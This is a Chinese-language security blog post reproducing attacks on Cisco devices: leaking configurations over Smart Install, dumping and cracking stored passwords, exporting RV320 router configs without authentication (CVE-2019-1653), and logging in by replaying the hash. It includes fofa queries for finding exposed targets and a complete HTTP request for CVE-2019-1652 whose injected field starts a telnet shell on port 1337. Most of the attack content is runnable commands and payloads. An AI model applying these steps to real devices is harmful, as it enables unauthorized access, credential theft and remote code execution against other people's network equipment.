 ```yaml
---

title: "cisco设备信息泄漏漏洞案例"
date: 2022-10-21T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"
categories: ["技术"]

---
```


近期遇到了几个cisco配置信息泄漏的案例，借此机会复现下cisco常见的几个漏洞。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA
{{% /admonition %}}

<!--more-->

---

## cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放4786端口的cisco设备，那可以深入测试一下。

fofa 语句 *protocol="smi"*

![Untitled](../../img/cisco-case/Untitled.png)

影响目标还挺多的

```
git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit
cd CiscoSmartInstallExploit
pip2 install tftpy
python2 cisco.py [ip]
```

注意用python2运行,运行成功会下载目标的运行配置

![Untitled](../../img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL配置，ftp配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

```
git clone https://github.com/frostbits-security/ccat.git
cd ccat
pip3 install -r requirements.txt
python3 ccat.py configuration_file
```

![Untitled](../../img/cisco-case/Untitled%202.png)

我们可以使用 **--dump-creds** 参数dump出账号密码

![Untitled](../../img/cisco-case/Untitled%203.png)

文件名m500的可以用hashcat -m 500的掩码进行爆破,5700同理

![Untitled](../../img/cisco-case/Untitled%204.png)

---

## CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app="CISCO-RV320”

对应poc

```
ip:port/cgi-bin/config.exp
```

![Untitled](../../img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和md5的密码,不过md5的格式为 `md5($password.$auth_key)`，其中 auth_key 是一个静态值，可以通过直接访问 / 路径找到。

![Untitled](../../img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和md5的密码后可以通过替换登录包的hash进行登录,无需解密

![Untitled](../../img/cisco-case/Untitled%207.png)

![Untitled](../../img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github上的利用poc由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

```
POST /certificate_handle2.htm?type=4 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 319

page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b
```

payload执行后会用telnet在本地监听1337口

连接验证

![Untitled](../../img/cisco-case/Untitled%209.png)

---

## 总结

1. cisco设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2. python的poc经常会遇到一些历史遗留问题，比如tls版本过低，依赖库安装报错不兼容等等问题，建议还是用go写poc，利人利己。
